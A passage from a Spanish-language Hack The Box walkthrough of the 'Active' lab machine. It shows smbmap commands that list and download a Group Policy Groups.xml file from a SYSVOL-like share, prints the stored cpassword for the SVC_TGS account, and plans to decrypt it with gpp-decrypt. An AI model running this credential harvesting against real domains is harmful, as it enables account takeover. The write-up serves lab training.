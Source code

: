 Ahora se pone mas interesante. 

Ésta estructura de archivos se parece a un **sysvol** ,  por lo que hay que buscar un archivo `groups.xml`, porque ahí se suelen almacenar credenciales **hasheadas**. Vamos a ver si lo hay.

```bash
h3g0c1v@kali:~/htb/active$ smbmap -H 10.10.10.100 -r Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups
[+] IP: 10.10.10.100:445	Name: active.htb                                        
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	Replication                                       	READ ONLY	
	.\Replicationactive.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\*
	dr--r--r--                0 Sat Jul 21 12:37:44 2018	.
	dr--r--r--                0 Sat Jul 21 12:37:44 2018	..
	fr--r--r--              533 Sat Jul 21 12:38:11 2018	Groups.xml

```

Y si que lo hay, asi que vamos a descargarlo a nuestro equipo.

```bash
h3g0c1v@kali:~/htb/active$ smbmap -H 10.10.10.100 --download Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
[+] Starting download: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml (533 bytes)
[+] File output to: /home/kali/Escritorio/HTB/MachinesHTB/Active/nmap/10.10.10.100-Replication_active.htb_Policies_{31B2F340-016D-11D2-945F-00C04FB984F9}_MACHINE_Preferences_Groups_Groups.xml

```

Y procedemos a visualizarlo.

```bash
h3g0c1v@kali:~/htb/active$ cat 10.10.10.100-Replication_active.htb_Policies_\{31B2F340-016D-11D2-945F-00C04FB984F9\}_MACHINE_Preferences_Groups_Groups.xml
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: 10.10.10.100-Replication_active.htb_Policies_{31B2F340-016D-11D2-945F-00C04FB984F9}_MACHINE_Preferences_Groups_Groups.xml
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?xml version="1.0" encoding="utf-8"?>
   2   │ <Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" imag
       │ e="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description
       │ ="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverE
       │ xpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
   3   │ </Groups>
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

```
Vemos que hay un usuario existente y un `cpassword`, asi que vamos a utilizar la herramienta **gpp-decrypt** , para ver si la podemos crackear, gracias a que Microsoft compartió la **key** , que se utiliza para encriptar esos **hashes**.

